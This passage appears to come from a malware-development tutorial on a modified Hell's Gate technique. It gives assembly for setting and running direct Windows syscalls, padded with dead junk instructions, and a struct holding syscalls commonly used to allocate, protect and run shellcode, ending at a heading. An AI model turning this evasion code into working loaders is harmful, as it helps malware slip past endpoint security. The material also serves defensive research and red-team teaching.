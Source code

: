`SetSSN` & `RunSyscall` with added assembly instructions.


```
.data
	wSystemCall DWORD 0000h

.code

	SetSSn PROC
			xor eax, eax			; eax = 0
			mov wSystemCall, eax		; wSystemCall = 0
			mov eax, ecx			; eax = ssn
			mov r8d, eax			; r8d = eax = ssn
			mov wSystemCall, r8d		; wSystemCall = r8d = eax = ssn
			ret
	SetSSn ENDP

	RunSyscall PROC
			xor r10, r10			; r10 = 0
			mov rax, rcx			; rax = rcx
			mov r10, rax			; r10 = rax = rcx
			mov eax, wSystemCall		; eax = ssn
			jmp Run                  ; execute 'Run'
			xor eax, eax     ; wont run
			xor rcx, rcx     ; wont run
			shl r10, 2       ; wont run
		Run:
			syscall
			ret
	RunSyscall ENDP

end

```
### **Updating The Main Function**

### **Creating The NTAPI\_FUNC Structure**

The updated Hell's Gate implementation is now completed. The last part is to test the implementation which requires the main function. To do so, a new structure is created that replaces the [VX\_TABLE](https://github.com/am0nsec/HellsGate/blob/master/HellsGate/main.c#L14). The new structure, `NTAPI_FUNC`, will contain the syscalls' information. Storing this information in a structure will enable calling the syscalls multiple times when initialized as a global variable.

The `NTAPI_FUNC` structure is shown below.


```
typedef struct _NTAPI_FUNC
{
	NT_SYSCALL	NtAllocateVirtualMemory;
	NT_SYSCALL	NtProtectVirtualMemory;
	NT_SYSCALL	NtCreateThreadEx;
	NT_SYSCALL	NtWaitForSingleObject;

}NTAPI_FUNC, *PNTAPI_FUNC;

// global variable
NTAPI_FUNC g_Nt = { 0 };

```
### **Creating InitializeNtSyscalls**

